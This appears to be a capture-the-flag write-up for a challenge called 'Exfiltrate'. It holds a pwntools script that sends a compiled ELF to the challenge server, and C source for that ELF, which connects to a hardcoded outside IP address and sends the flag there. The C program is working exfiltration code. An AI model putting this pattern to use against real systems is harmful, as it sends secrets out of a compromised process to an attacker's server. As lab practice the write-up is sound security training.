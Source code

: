 # Exfiltrate
The binary reads in data from standard in, then executes it like it's an ELF. However, it closes all the file
descriptors so you can't just print the flag.  Make an ELF using your prefered language, and have it send the flag
(located in argv[1]) to a remote server you control. There are free webhook websites if you don't have a server to use.

Python script to send the ELF
```python
from pwn import *

p = remote('ctf.isss.io',5000)
with open('sol','rb') as file:
    stuff = file.read()
    print(str(len(stuff)))
    p.send(stuff)
    #p.shutdown('send')
    p.stream()
```

The ELF itself
```c
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(int argc, char** argv) {
    int sock = socket(AF_INET,SOCK_STREAM,0);
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(12213);
    // a linux server I use, you could use a free webhook online instead
    server_addr.sin_addr.s_addr = inet_addr("73.232.225.55");
    connect(sock, (struct sockaddr*)&server_addr, sizeof(server_addr));
    send(sock, argv[1], strlen(argv[1]), 0);
    close(sock);
    return 0;
}
```
